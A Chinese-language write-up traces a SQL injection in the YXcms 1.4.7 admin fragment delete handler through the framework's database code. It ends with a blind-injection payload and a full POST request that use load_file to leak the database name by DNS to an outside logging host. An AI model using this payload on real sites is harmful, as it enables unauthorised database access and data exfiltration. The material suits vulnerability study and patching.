

# YXcms 1.4.7 sql 注入

> 原文：[http://book.iwonder.run/0day/YXcms/6.html](http://book.iwonder.run/0day/YXcms/6.html)

## 一、漏洞简介

## 二、漏洞影响

YXcms 1.4.7

## 三、复现过程

### 漏洞分析

查看漏洞文件 protected/apps/admin/controller/fragmentController.php 的第 63 行

```
public function del()
{
    if(!$this->isPost()){
        $id=intval($_GET['id']);
        if(empty($id)) $this->error('您没有选择~');
        if(model('fragment')->delete("id='$id'"))
        echo 1;
        else echo '删除失败~';
    }else{
        if(empty($_POST['delid'])) $this->error('您没有选择~');
        $delid=implode(',',$_POST['delid']);
        if(model('fragment')->delete('id in ('.$delid.')'))
        $this->success('删除成功',url('fragment/index'));
    }
} 
```

我们跟 if(model('fragment')->delete("id='$id'")),它会先到 protected/core.php 文件里面的 model

```
function model($model){
    static $objArray = array();
    $className = $model . 'Model';
    if( !is_object($objArray[$className]) ){
        if( !class_exists($className) ) {
            throw new Exception(config('_APP_NAME'). '/' . $className . '.php 模型类不存在');
        }
        $objArray[$className] = new $className();
    }
    return $objArray[$className];
} 
```

然后到 protected/apps/admin/model/fragmentModel.php

```
<?php
class fragmentModel extends baseModel{
    protected $table = 'fragment';
} 
```

继续 protected/base/model/baseModel.php

```
<?php
class baseModel extends model{
     protected $prefix='';
     public function __construct( $database= 'DB',$force = false ){
        parent::__construct();
        $this->prefix=config('DB_PREFIX');
    }
} 
```

再来到最底层的数据库操作类 protected/base/model/model.php 的第 45 行

```
public function delete($condition){
return $this->model->table($this->table, $this->ignoreTablePrefix)->where($condition)->delete();
    } 
```

这个 delete()是从哪里来的，我们来看第十三行的代码,创建了一个对象 cpModel

```
static public function connect($config, $force=false){
        static $model = NULL;
        if( $force==true || empty($model) ){
            $model = new cpModel($config);
        }
        return $model;
    } 
```

漏洞文件在 protected/include/core/cpModel.class.php,

```
public function delete() {
        $table = $this->options['table'];   //当前表
        $where = $this->_parseCondition();  //条件
        if ( empty($where) ) return false; //删除条件为空时，则返回 false，避免数据不小心被全部删除

        $this->sql = "DELETE FROM $table $where";
        $query = $this->db->execute($this->sql);
        return $this->db->affectedRows();
    } 
```

这里用到了一个方法 _parseCondition()

```
private function _parseCondition() {
        $condition = $this->db->parseCondition($this->options);
        $this->options['where'] = '';
        $this->options['group'] = '';
        $this->options['having'] = '';
        $this->options['order'] = '';
        $this->options['limit'] = '';
        $this->options['field'] = '*';      
        return $condition;      
    }
} 
```

这个函数是在 protected/include/core/db/cpMysql.class.php 的 128 行

```
public function parseCondition($options) {
        $condition = "";
        if(!empty($options['where'])) {
            $condition = " WHERE ";
            if(is_string($options['where'])) {
                $condition .= $options['where'];
            } else if(is_array($options['where'])) {
                    foreach($options['where'] as $key => $value) {
                         $condition .= " `$key` = " . $this->escape($value) . " AND ";
                    }
                    $condition = substr($condition, 0,-4);  
            } else {
                $condition = "";
            }
        }

        if( !empty($options['group']) && is_string($options['group']) ) {
            $condition .= " GROUP BY " . $options['group'];
        }
        if( !empty($options['having']) && is_string($options['having']) ) {
            $condition .= " HAVING " .  $options['having'];
        }
        if( !empty($options['order']) && is_string($options['order']) ) {
            $condition .= " ORDER BY " .  $options['order'];
        }
        if( !empty($options['limit']) && (is_string($options['limit']) || is_numeric($options['limit'])) ) {
            $condition .= " LIMIT " .  $options['limit'];
        }
        if( empty($condition) ) return "";
        return $condition;
    } 
```

里面有一个行数来过滤 escape,我们找到 74 行的这个函数定义

```
public function escape($value) {
        if( isset($this->_readLink) ) {
            $link = $this->_readLink;
        } elseif( isset($this->_writeLink) ) {
            $link = $this->_writeLink;
        } else {
            $link = $this->_getReadLink();
        }

        if( is_array($value) ) { 
           return array_map(array($this, 'escape'), $value);
        } else {
           if( get_magic_quotes_gpc() ) {
               $value = stripslashes($value);
           } 
            return  "'" . mysql_real_escape_string($value, $link) . "'";
        }
    } 
```

不过这个函数有一句 is_array 如果是数组才会执行下面的过滤，如果不是的话就正常执行下去,没有任何 sql 的过滤就造成了注入漏洞。

### 复现

这个盲注可以用[http://ceye.io 和 python 脚本跑](http://ceye.io 和 python 脚本跑)

```
http://0-sec.org/index.php?r=admin/fragment/index 
```

payload:

```
1 and if((select load_file(concat('\\\\',(select database()),'.xxxx.ceye.io\\abc'))),1,1))-- 

- 点击删除 
```

post 包

```
POST /index.php?r=admin/fragment/del HTTP/1.1
Host: 0-sec.org
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 188
Referer: [url]http://127.0.0.1/index.php?r=admin/fragment/index[/url]
Cookie: PHPSESSID=bbei6n32cuevaf1lbi0n79rdj2; 
Connection: close
Upgrade-Insecure-Requests: 1

delid%5B%5D=select LOAD_FILE((CONCAT('\\\\',(SELECT DATABASE()),'.8571e594.2m1.pw\\abc')))&__hash__=529fbedab8a7b8a3f3f5a0f394f51cf2_08ebfXTKPoKd0tX4iq+aFMwhq5QkkRGC/NfUu/Ny83+UmU8u0MoCIj8 
```



然后用 burp 截获数据，修改内容加上我们的 payload，用原文的 payload 后面+会报错


然后进入[http://ceye.io/records/dns](http://ceye.io/records/dns) 查看我们的数据


